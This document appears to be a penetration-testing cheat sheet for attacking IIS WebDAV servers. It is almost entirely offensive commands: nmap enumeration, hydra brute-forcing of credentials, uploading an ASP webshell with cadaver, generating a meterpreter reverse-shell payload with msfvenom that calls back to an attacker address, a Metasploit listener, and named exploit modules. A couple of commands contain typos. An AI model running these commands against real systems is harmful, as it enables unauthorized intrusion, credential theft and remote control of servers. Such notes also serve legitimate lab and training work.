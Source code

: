 # IIS Webdav
## nmap scripts
nmap 10.10.10.1 --script=http-webdavscan //should give back available webdav methods  
nmap 10.10.10.1 --script=http-enum //should give back /webdav/ folder  
## bruteforcing credentials
hydra -L users.txt -P passwords.txt 10.10.10.1 http-get /webdav/  
## davtest
davtest -url http://10.10.10.1/webdav/  
davtest -auth username:password -url http://10.10.10.1/webdav/  
## cadaver
cadaver http://10.10.10.1/webdav	(ask for username, password) (gives a shell like ftp)  
(inside cadaver shell)dav:/webdav/> put /usr/share/webshells/asp/webshell.asp  
## metasploit
### msfvenom reverse shell + msf listener
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.45 LPORT=1234 -f asp > shell.asp  
service postresql start && msfconsole  
use multi/handler  
set payload windows/meterpreter/reverse_tcp  
run  
### modules
epxloit/windows/iis/iis_webdav_upload_asp  (need credentials, and PATH)  
auxiliary/scanner/http/webdav_scanner  
auxiliary/scanner/http/webdav_website_content  

